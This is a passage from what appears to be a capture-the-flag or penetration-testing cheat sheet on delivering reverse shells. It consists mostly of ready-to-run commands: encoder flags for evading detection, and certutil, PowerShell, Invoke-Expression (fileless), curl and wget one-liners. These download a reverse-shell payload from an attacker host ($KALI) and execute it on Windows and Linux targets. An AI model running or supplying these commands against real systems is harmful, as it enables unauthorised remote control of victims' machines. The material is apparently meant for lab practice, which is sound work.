 > [!Tip]
> 
> Use `linux/x86/shell_reverse_tcp` or `windows/shell_reverse_tcp` to generate a x86 payload
>
> Add `-e x86/shikata_ga_nai -i 9` to use encoder (`-i 9` means 9 iterations, uses 1 iteration if `-i` is omitted)

#### PowerShell-based reverse shell script:

Download the reverse shell script:

```sh
curl -sLO https://github.com/joetanx/ctf/raw/main/reverse.ps1
```

Edit the address and port:

```sh
sed -i 's/<ADDRESS>/$KALI/' reverse.ps1
sed -i 's/<PORT>/4444/' reverse.ps1
```

### 4.4. Execute payloads

#### Windows: Execute reverse shell TCP payload

|   |   |
|---|---|
|certutil|`certutil.exe /urlcache /f /split http://$KALI/reverse.exe %TEMP%\reverse.exe && %TEMP%\reverse.exe`|
|PowerShell<br>(System.Net.WebClient)|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://$KALI/reverse.exe','%TEMP%\reverse.exe'); Start-Process %TEMP%\reverse.exe`|
|PowerShell<br>(Invoke-WebRequest)|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri http://$KALI/reverse.exe -OutFile .\reverse.exe; Start-Process %TEMP%\reverse.exe`|

#### Windows: Execute PowerShell-based reverse shell script

> [!Tip]
>
> `Invoke-Expression` is useful if you don't want the payload to touch the disk, but it works for Powershell Scripts only
>
> (i.e. `DownloadFile` of the reverse shell executable and try to run it with `Invoke-Expression` will not work)
>
> ```cmd
> powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://$KALI/reverse.ps1')
> 
> powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-Expression (Invoke-WebRequest -Uri http://$KALI/reverse.ps1')
> ```

#### Linux: Execute reverse shell TCP payload

|   |   |
|---|---|
|cURL|`curl -O http://$KALI/reverse.elf && chmod +x reverse.elf && ./reverse.elf`|
|Wget|`wget http://$KALI/reverse.elf && chmod +x reverse.elf && ./reverse.elf`|
